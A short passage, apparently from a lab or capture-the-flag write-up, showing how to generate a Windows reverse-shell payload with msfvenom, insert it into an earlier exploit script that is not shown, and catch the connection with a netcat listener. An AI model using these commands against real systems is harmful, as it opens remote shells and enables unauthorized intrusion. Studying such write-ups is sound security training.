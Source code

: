 ### Reverse Shell Shellcode

Get our IP and make the payload:
```console
zero@pio$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=<your ip> LPORT=<port> -f 'python'
```

Modify the previous script with the new payload.

### Remote Exploitation 

Open a netcat:
```console
zero@pio$ nc -lvnp 1234 
```

Execute the script and now we should have access.


















